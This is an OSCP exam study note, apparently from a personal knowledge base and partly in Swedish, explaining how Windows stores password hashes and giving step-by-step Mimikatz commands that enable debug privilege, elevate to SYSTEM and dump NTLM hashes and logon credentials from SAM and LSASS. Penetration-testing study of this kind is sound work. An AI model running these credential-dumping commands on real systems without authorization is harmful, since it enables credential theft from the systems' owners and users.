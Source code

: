 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/5. Mimikatz/"}
---
```


### Understanding NTLM and Mimikatz:
- Windows stores hashed passwords in the Security Account Manager (SAM)
- Rainbow Table Attack = precomputed hashes compared to hash (does not work with salting)
- Mimikatz
	- Because of the kernel having an exclusive lock on "C:\\Windows\\system32\\config\sam" it cannot be copied or moved. Mimikatz will bypass this.
	- Using the "sekurlsa" module it can also extract hashes from process memory at Local Security Authority Subsystem (LSASS).
		- LSASS is a process in Windows which handles and caches user authentication, password changes, and access token creation.
		- It is run by the SYSTEM account, which is even more privileged than Administrator.
	- Mimikatz need to be run as at least Administrator and have "SeDebugPrivilege" access enabled. It lets us debug or own and other users' processes.
	- Elevation to SYSTEM can happen through PsExec, or Mimikatz's token elevation function (which requires "SeImpersonatePrivilege", and that is on by default for admins).

--------------

### Mimikatz Usage:
1. Enumerate local users:
```
Get-LocalUser
```
2. Start Mimikatz as at least Administrator:
```
.\mimikatz.exe
```
4. Aktivera SeDebugPrivilege:
```
privilege::debug
```
5. Elevera till SYSTEM:
```
token::elevate
```
6. Kör arbiträrt kommando. Exempel:
```
lsadump::sam #Dumpar NTLM hashar från SAM.
sekurlsa::logonpasswords #Dumpar alla logon credentials som kan hittas (lsass).
```
7. Win!

- Alla Mimikatz-commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#commands-list
